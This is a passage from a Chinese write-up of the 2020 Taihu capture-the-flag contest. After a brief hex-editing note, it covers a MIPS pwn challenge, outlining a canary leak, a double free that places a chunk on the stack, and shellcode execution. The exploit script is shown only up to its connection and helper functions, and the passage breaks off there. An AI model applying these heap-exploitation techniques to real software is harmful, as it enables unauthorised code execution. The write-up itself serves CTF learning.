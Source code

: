 然后使用16进制编辑器，将1.php的路径进行修改，然后修改下面的额验证即可。

参考：[https://blog.csdn.net/xiejianjun417/article/details/94008196](https://blog.csdn.net/xiejianjun417/article/details/94008196)

![image-20200624001210958](2020-Taihuctf-writeup/image-20200624001210958.png)

## Pwn

### easyKooc
利用leave message 泄露cannary然后double free申请到栈上的地址控制程序执行chunk块内的shellcode
```python
from pwn import *
context.arch='mips'
context.log_level = 'debug'
# sh= process(["qemu-mipsel", "-g", "1234", "-L", "/usr/mipsel-linux-gnu/","./pwn"])
# sh = process(["qemu-mipsel", "-L", "/usr/mipsel-linux-gnu/","./pwn"])
sh = remote('127.0.0.1', 8888)

context.arch='mips'
context.os='linux'
context.update(bits = 32, endian = 'little')

def Write(Until, Text):
    sh.sendlineafter(Until, Text)

def Add(id, content): 
    Write('Plz input your choice\n', '1')
    Write('Plz input your todo id!\n', id)
    sh.sendafter('input your content', content)

def Delete(id):
    Write('Plz input your choice\n', '2')
    Write('Plz input your todo id!\n', id)

```